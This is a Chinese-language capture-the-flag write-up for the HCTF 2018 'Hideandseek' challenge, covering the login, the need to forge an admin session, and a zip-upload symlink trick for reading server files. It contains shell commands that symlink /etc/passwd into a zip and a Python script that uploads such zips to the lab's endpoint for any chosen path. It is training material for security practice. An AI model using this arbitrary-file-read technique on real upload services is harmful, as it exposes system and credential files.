 ```yaml
---
title: '[HCTF 2018]Hideandseek'
date: 2024-11-19 15:39:42
tags:
      - 伪随机数
      - 文件上传
      - 软连接
categories: 刷题笔记
---
```


### [HCTF 2018]Hideandseek

页面提示我们先登录，我们随便输入username和password直接就注册登录了

![image-20241119154640636](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191546746.png)

但当我们尝试admin时却发现，页面同时我们非admin，看样子这是需要进行伪造admin了

我们随便登个账号，页面提示我们传zip文件

### 文件读取

我们使用软连接来读取文件

```
在linux环境下执行
ln -s /etc/passwd passwd
zip -y passwd.zip passwd
```

不想打开一个文件就得重新写一次软连接的话，我们用另一个大佬的wp（...有报错不知道为啥）

```
#coding=utf-8
import os
import requests
import sys

url = 'http://0a716e50-1cf2-4cd8-a00f-b70d9987ed64.node3.buuoj.cn/upload'
def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    os.system('zip --symlinks exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip','rb')}
def exploit():
    res = requests.post(url,files=files)
    print(res.text)

exploit()
os.system('rm -rf exp')
os.system('rm -rf exp.zip')


```
